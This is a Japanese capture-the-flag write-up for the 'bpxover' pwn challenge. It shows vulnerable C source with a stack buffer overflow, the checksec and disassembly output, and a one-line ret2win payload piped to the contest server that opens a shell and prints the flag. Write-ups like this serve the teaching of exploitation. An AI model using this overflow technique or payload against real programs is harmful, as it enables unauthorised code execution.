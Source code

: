 # bpxover:pwn:100pts
C言語のコードの中にはアセンブリも書けるらしいです。え、そんなこと言ってる場合じゃないって？  
注意：bpxoverとbpxorは関連した問題です。 配布ファイルの差分を見ることをおすすめします。  
`nc chall.live.ctf.tsg.ne.jp 30006`  
[bpxover.tar.gz](bpxover.tar.gz)  

# Solution
接続先とソースが配布されている。  
ソースは以下のようであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    char *argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char buf[16];

    puts("hello :)");
    scanf("%s", buf);
    long x = strtoll(buf, NULL, 10);
    asm ("xor %0, %%rbp\n\t"
            :
    : "r" (x));

    return 0;
}
```
自明なBOFがあるためwinへ飛ばせばよい。  
```bash
$ gdb ./chall
~~~
gdb-peda$ checks
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ disas win
Dump of assembler code for function win:
   0x00000000004011b6 <+0>:     endbr64
   0x00000000004011ba <+4>:     push   rbp
   0x00000000004011bb <+5>:     mov    rbp,rsp
   0x00000000004011be <+8>:     sub    rsp,0x10
   0x00000000004011c2 <+12>:    lea    rax,[rip+0xe3b]        # 0x402004
   0x00000000004011c9 <+19>:    mov    QWORD PTR [rbp-0x10],rax
   0x00000000004011cd <+23>:    mov    QWORD PTR [rbp-0x8],0x0
   0x00000000004011d5 <+31>:    lea    rax,[rbp-0x10]
   0x00000000004011d9 <+35>:    mov    edx,0x0
   0x00000000004011de <+40>:    mov    rsi,rax
   0x00000000004011e1 <+43>:    lea    rdi,[rip+0xe1c]        # 0x402004
   0x00000000004011e8 <+50>:    call   0x401090 <execve@plt>
   0x00000000004011ed <+55>:    nop
   0x00000000004011ee <+56>:    leave
   0x00000000004011ef <+57>:    ret
End of assembler dump.
gdb-peda$ q
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb6\x11\x40\x00\x00\x00\x00";cat) | nc chall.live.ctf.tsg.ne.jp 30006
hello :)
ls
chall
flag
start.sh
cat flag
TSGLIVE{welcome_overflowwwwwwwwww}
```
flagが得られた。  

## TSGLIVE{welcome_overflowwwwwwwwww}